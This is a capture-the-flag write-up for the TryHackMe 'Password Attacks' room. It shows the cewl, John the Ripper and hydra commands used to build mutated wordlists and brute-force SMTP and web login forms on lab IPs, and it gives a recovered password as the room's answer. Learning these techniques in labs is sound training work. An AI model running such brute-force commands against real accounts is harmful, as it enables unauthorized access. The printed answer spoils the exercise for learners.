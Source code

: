 # Password Attacks

**Room Link:** [https://tryhackme.com/room/passwordattacks](https://tryhackme.com/room/passwordattacks)



## Deploy the VM

Creating a wordlist from this site as recommend in the room.

**Kali**

```
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com/  
```

## Offline Attacks

**In this question, you need to generate a rule-based dictionary from the wordlist clinic.lst in the previous task. email: pittman@clinic.thmredteam.com against 10.10.131.68:25 (SMTP).**

**What is the password? Note that the password format is as follows: \[symbol]\[dictionary word]\[0-9]\[0-9].**

#### **john.conf**

```
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@#$]
```

**Kali**

```
john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst
hydra -l pittman@clinic.thmredteam.com -P dict.lst smtp://$VICTIM:25 -v
```

Answer is !multidisciplinary00

**Perform a brute-forcing attack against the phillips account for the login page at http://10.10.130.199/login-get using hydra? What is the flag?**

<figure><img src="../../.gitbook/assets/image (2) (9) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (21) (5).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
hydra -l phillips -P ../dict.lst 10.10.130.199 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```



<figure><img src="../../.gitbook/assets/image (12) (2) (3).png" alt=""><figcaption></figcaption></figure>



\
**Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: http://10.10.130.199/login-post/. What is the flag?**

**Note: use the clinic.lst dictionary in generating and expanding the wordlist!**



**Kali**

```
john --wordlist=clinic.lst --rules=Single-Extra --stdout > dict2.lst

./hydra -l burgess -P dict2.lst 10.10.130.199 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
```

<figure><img src="../../.gitbook/assets/image (14) (8).png" alt=""><figcaption></figcaption></figure>
